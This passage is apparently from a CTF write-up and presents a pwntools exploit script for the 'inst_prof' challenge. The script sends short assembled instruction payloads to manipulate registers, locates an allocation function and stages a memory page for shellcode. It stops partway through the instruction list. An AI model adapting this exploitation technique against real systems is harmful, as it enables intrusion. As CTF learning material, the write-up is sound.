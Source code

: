 Below you can find the final code of the script:
```python
#!/usr/bin/env python
# coding: utf8
from pwn import *

# FILL binary and host, port
binary = './inst_prof'
host, port = 'inst-prof.ctfcompetition.com:1337'.split(':')
port = int(port)

e = ELF(binary)
context.os = 'linux'
context.arch = e.arch

### LAUNCH THE BINARY/CONNECT ETC
if args['REMOTE']:
    p = remote(host, port)
elif args['GDB']:
    if args['GDB'] == 'SHORT':
        gdbscript = 'break *&do_test+86'
    else:
        gdbscript = 'b main\nc\nc\nbreak *&do_test+86'
        print('Setting gdbscript so we will break at 2nd main execution, this may take long time')
    print('gdbscript = %s' % repr(gdbscript))
    p = gdb.debug(binary, gdbscript=gdbscript)
else:
    p = process(binary)

p.recvuntil('initializing prof...ready\n')
info('Received HELLO from 1st main execution.')

def send_instr(instrs):
    payload = asm(instrs, arch='amd64')

    if len(payload) < 4:
        payload += asm('ret', arch='amd64')

    assert len(payload) <= 4, "Payload too long: %s" % instrs

    p.send(payload)

instructions = [
    'lea r14, [rbp-72]',    # load address of pointer to 0xaa3 to r14
    'mov r15, [r14]',       # copy value under the pointer (0xaa3) to r15
    'mov r14, r15',         # copy the value to r14, both r14 and r15 hold 0xaa3
    'lea r15, [r14-116]',   # r15 = r14-116, r15 is now 0xaa3 - 116 = 0xa2f
    'mov r14, r15',         # r14 = r15,     r14 is now 0xa2f
    'lea r15, [r14-63]',    # r15 = r14-63,  r15 is now 0xa2f -  63 = 0x9f0, r15 now points to alloc_page
    'mov [r13], r15',       # put alloc_page addr on the stack

    # Below line is here just for testing purposes
    # It changes RSP so that we start ROP chain leaving do_test function
    #'mov rsp, r13'

    # Grabs mmap'ed memory page address to r15
    'lea r14, [rbp-64]',    # load address of pointer to mmap'ed page to r14
    'mov r15, [r14]',       # copy value under the pointer to r15
]

# subtract r15 address by 128*32 = 4096 (0x1000)
# so r15 will point to the later/new mmap'ed page, where we will put shellcode
instructions += [
```